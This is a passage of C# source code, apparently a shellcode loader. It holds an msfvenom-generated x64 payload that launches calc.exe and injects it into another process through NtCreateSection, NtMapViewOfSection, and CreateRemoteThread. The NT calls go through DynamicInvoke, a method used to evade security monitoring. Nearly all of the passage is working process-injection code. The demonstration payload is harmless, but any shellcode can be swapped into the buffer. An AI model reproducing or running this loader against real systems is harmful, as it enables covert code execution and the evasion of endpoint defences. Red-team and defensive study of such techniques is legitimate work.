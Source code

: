 ```csharp
			}
			//msfvenom -p windows/x64/exec CMD="calc.exe" EXITFUNC=thread -f csharp
			byte[] buf = new byte[276] 
			{
				0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,
				0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,
				0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,
				0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,
				0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,
				0x01,0xd0,0x8b,0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,
				0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,0x56,0x48,
				0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,
				0xac,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,
				0x24,0x08,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,
				0x66,0x41,0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x41,0x8b,0x04,
				0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,
				0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,
				0x8b,0x12,0xe9,0x57,0xff,0xff,0xff,0x5d,0x48,0xba,0x01,0x00,0x00,0x00,0x00,
				0x00,0x00,0x00,0x48,0x8d,0x8d,0x01,0x01,0x00,0x00,0x41,0xba,0x31,0x8b,0x6f,
				0x87,0xff,0xd5,0xbb,0xe0,0x1d,0x2a,0x0a,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,
				0xd5,0x48,0x83,0xc4,0x28,0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,
				0x47,0x13,0x72,0x6f,0x6a,0x00,0x59,0x41,0x89,0xda,0xff,0xd5,0x63,0x61,0x6c,
				0x63,0x2e,0x65,0x78,0x65,0x00 
			};
			 IntPtr sectionHandle = IntPtr.Zero;
			 ulong maxSize = (uint)buf.Length;
			 uint SECTION_ALL_ACCESS = 0x0F001F;
			 uint PAGE_EXECUTE_READWRITE = 0x40;
			 uint SEC_COMMIT = 0x8000000;
			 DynamicInvoke.Native.NtCreateSection(ref sectionHandle, SECTION_ALL_ACCESS, IntPtr.Zero, ref maxSize, PAGE_EXECUTE_READWRITE, SEC_COMMIT, IntPtr.Zero);
			 
			IntPtr hlocalBaseAddress = IntPtr.Zero;
			IntPtr hRemoteBaseAddress = IntPtr.Zero;
			uint PAGE_READWRITE = 0x04;
			uint PAGE_EXECUTE_READ = 0x20;
			DynamicInvoke.Native.NtMapViewOfSection(sectionHandle, Process.GetCurrentProcess().Handle, ref hlocalBaseAddress, IntPtr.Zero, IntPtr.Zero, IntPtr.Zero, ref maxSize, 2, 0, PAGE_READWRITE); 
			DynamicInvoke.Native.NtMapViewOfSection(sectionHandle, pi.hProcess, ref hRemoteBaseAddress, IntPtr.Zero, IntPtr.Zero, IntPtr.Zero, ref maxSize, 2, 0, PAGE_EXECUTE_READ); 
			Marshal.Copy(buf, 0, hlocalBaseAddress, buf.Length);
			IntPtr lpThreadId = IntPtr.Zero;
			CreateRemoteThread(pi.hProcess, IntPtr.Zero, 0, hRemoteBaseAddress, IntPtr.Zero, 0, out lpThreadId);    
		}
		public class Structs
		{
			public struct STARTUPINFO
			{
			    public uint cb;
			    public string lpReserved;
			    public string lpDesktop;
			    public string lpTitle;
			    public uint dwX;
			    public uint dwY;
			    public uint dwXSize;
			    public uint dwYSize;
			    public uint dwXCountChars;
			    public uint dwYCountChars;
			    public uint dwFillAttribute;
			    public uint dwFlags;
			    public short wShowWindow;
```